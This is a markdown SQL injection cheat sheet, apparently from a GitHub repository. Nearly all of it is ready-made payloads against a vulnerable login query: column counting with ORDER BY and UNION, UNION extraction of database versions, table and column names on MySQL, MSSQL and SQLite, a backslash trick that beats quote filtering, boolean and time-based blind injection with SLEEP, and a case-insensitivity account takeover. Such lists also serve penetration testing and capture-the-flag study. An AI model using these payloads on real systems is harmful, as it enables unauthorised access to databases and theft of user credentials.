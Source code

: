 ###### In the following queries, `'` may not work sometimes, so { **\`**,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table _(Error-based SQLI)_
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' UNION SELECT 1,2,3.. FROM table_name --`
* _[$input_user]_ : `' ORDER BY n --`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' OR 1=1 LIMIT 1 --`

### Special Bypassing
* Bypassing filtered `'`__[quote]__

```   
 <?php 
 $name = preg_replace("'","",$name);
 $pass = preg_replace("'","",$pass);
 SELECT * FROM users WHERE username='name' and password='pass'
```
  _[attack]_ => user = `\`  & pass = `OR 1=1 --`

## For Mysql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --`

#### Extracting Tables from databases
*  _[$input_user]_ : `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

#### Extracting columns from databases
*  _[$input_user]_ : `' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()`
*  _[$input_user]_ : `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For Mssql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,db_name(i) --` [Here **i** is the i-th database present]
*  _[$input_user]_ : `' UNION SELECT 1,@@version,name FROM master..sysdatabases --`

__[In MsSQL, if second colums is `username` then the payload `' UNION SELECT 1,1,name FROM master..sysdatabases --` won't work , second column MUST be a string. Interesting !!]__

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
 
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
#### Extracting sqlite version
  _[$input_user]_ : `' UNION SELECT sqlite_version()`
#### Extracting table names
  _[$input_user]_ : `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  _[$input_user]_ : `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`

*  _[$input_user]_ : `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
*  _[$input_user]_ : `' OR IF(username='something',SLEEP(10),0) --`

    [Produces a delayed response if username=`something` exists]
 
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
